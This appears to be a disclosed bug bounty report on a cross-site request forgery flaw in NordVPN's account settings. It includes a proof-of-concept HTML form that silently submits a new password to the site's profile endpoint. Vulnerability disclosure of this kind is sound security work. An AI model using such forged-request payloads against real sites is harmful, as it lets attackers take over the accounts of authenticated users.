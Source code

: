 # CSRF to change password

## Report Details
- **Report ID**: 204703
- **URL**: https://hackerone.com/reports/204703
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-02-08T18:10:55.317Z
- **Disclosed**: 2022-01-12T08:33:48.507Z

## Reporter
- **Username**: paramdham
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Description 

Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user's web browser to perform an unwanted action on a trusted site for which the user is currently authenticated.


I have found CSRF to change password , 

POC 


<html>

  <body>
    <form action="https://nordvpn.com/profile/" method="POST">
      <input type="hidden" name="tmpl" value="settings" />
      <input type="hidden" name="password" value="password" />
      <input type="hidden" name="password&#95;confirmation" value="password" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

Thanks

## Attachments
No attachments
